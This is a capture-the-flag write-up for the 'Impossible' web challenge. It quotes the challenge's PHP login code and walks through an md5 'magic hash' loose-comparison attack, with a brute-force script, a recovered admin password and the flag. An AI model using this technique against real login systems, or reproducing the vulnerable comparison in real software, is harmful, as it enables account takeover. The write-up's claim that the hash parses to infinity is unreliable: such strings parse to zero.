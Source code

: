## Impossible

The flag is supposed to be hidden here: http://impossible.asis-ctf.ir/
It looks like we can add new accounts, but they must be activated before logging in.
As usual, we start by examining `robots.txt` to find what we are not supposed to look at.
http://impossible.asis-ctf.ir/robots.txt contains just two lines:

    User-agent: *
    Disallow: /backup

http://impossible.asis-ctf.ir/backup/ contains dump of the whole site which is going to make the whole thing a lot easier.

`functions.php` contains an ad-hoc implementation of a database:

	function username_exist($username) {
		$data = file_get_contents('../users.dat');
		$users = explode("\n", $data);
		foreach ($users as $key => $value) {
			$user_data = explode(",", $value);
			if ($user_data[2] == '1' && base64_encode($username) == $user_data[0]) {
				return true;
			}
		}
		return false;
	}

	function add_user($username, $email, $password) {
		file_put_contents("../users.dat", base64_encode($username) . "," . base64_encode($email) . ",0\n", $flag = FILE_APPEND);
		file_put_contents("../passwords.dat", md5($username) . "," . base64_encode($password) . "\n", $flag = FILE_APPEND);
	}

	function get_user($username) {
		$data = file_get_contents('../passwords.dat');
		$passwords = explode("\n", $data);
		foreach ($passwords as $key => $value) {
			$user_data = explode(",", $value);
			if (md5($username) == $user_data[0]) {
				return array($username, base64_decode($user_data[1]));
			}
		}
		return array("", "");
	}

`register.php` allows you to add new account, unless one already exists and is active:
	
	$check = preg_match("/^[a-zA-Z0-9]+$/", $_POST['username']);
	if (!$check) {
	} elseif (username_exist($_POST['username'])) {
		$result = 1;
		$title = "Registration Failed";
	} else {
		add_user($_POST['username'], $_POST['email'], $_POST['password']);
		$user_info = get_user($_POST['username']);
		$result = 2;
		$title = "Registration Complete";
	}

`index.php` allows you to login, if user is active and has matching password:

	if(username_exist($_POST['username'])) {
		$user_info = get_user($_POST['username']);
		if ($user_info[1] == $_POST['password']) {
			$login = true;
		}
	}

Our exploit leverages several issues in those scripts.

1. `passwords.dat` contains md5 sums of user names but passwords are base64 encoded.
2. `register.php` will echo your password back to you. Or, actually, password of first user whose name has the same md5 as yours.
3. md5s are compared using == operator. If compared strings are valid numbers, they will be parsed first.
4. By strange coincidence active user with such numeric md5 already exists in the database: `md5("adm2salwg") == "0e004561083131340065739640281486"`

`0e004561083131340065739640281486` parses to positive infinity. We just need a different user name which also parses to infinity.
Brute forcing that, even in PHP, only takes a couple of minutes.

	$p = md5("adm2salwg");
	$i = 0;
	while(true) {
		if(md5("".$i) == $p) {
			echo $i;
		}
		$i++;
	}

First solution: `240610708` didn't work. There already was an account with that name. But the second one: `314282422` worked fine.
All you have to do is create account with user name: `314282422` and script will echo you `adm2salwg`'s password:

    1W@ewes$%rq0

After logging in as `adm2salwg`, flag is displayed:

	ASIS{d9fb4932eb4c45aa793301174033dff9}

There is one more potentially critical issue in those scripts. `file_put_contents` is not atomic.
By registering a lot of users with long names and emails, it should be possible to create bogus entries in both databases.
We weren't able to exploit it though.